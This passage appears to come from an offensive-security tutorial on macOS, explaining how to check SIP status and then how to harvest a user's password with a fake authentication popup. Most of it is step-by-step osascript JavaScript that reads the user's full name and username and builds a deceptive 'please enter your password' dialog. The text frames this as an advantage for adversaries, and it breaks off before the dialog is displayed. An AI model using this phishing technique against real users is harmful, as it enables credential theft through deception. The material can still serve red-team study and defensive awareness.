 SIP is enabled by default, but it can be disabled (or bypassed). to check its status, just type the following into the terminal: `csrutil status`

for (legitimate) app developers, the method to get access to credentials is simple: prompts. however, this method isn't ideal for adversaries because it requires some level of elevated credentials. as always, we might be able to use this to our advantage. 

![alt text](image-prompt.png)


## credential acces via prompts

users have become increasingly trained to authenticate to any popup on their machine. this leads us to an obvious next-step: create custom popup messages to ask for authentication, and record the credentials entered. 

first, set up the scripting environment by initializing `osascript` with javascript. 

```bash
osascript -l JavaScript -i
```

inside the new environment, create an `app` object that represents the current application and enables standard additions, which allows us to use the dialog functions.

```js
let app = Application.currentApplication()
app.includeStandardAdditions = true
```

now, for the main function. in OSA JavaScript, the `run()` function is the entry point of the script.


```js
function run() {

}
```

using shell commands, get the user's full name + username.

```js
const fullName = app.doShellScript('id -F')
const username = app.doShellScript('whoami')
```

define the title, text, default answer, and icon for the dialog. these will be displayed to the user.

```js
const title = `Hello ${fullname}`
const text = `Hi ${username}, please enter your password:`
const answer = ""
const icon = "caution"
```

display the dialog, and wrap it in a try-catch block to handle cancellations or errors.

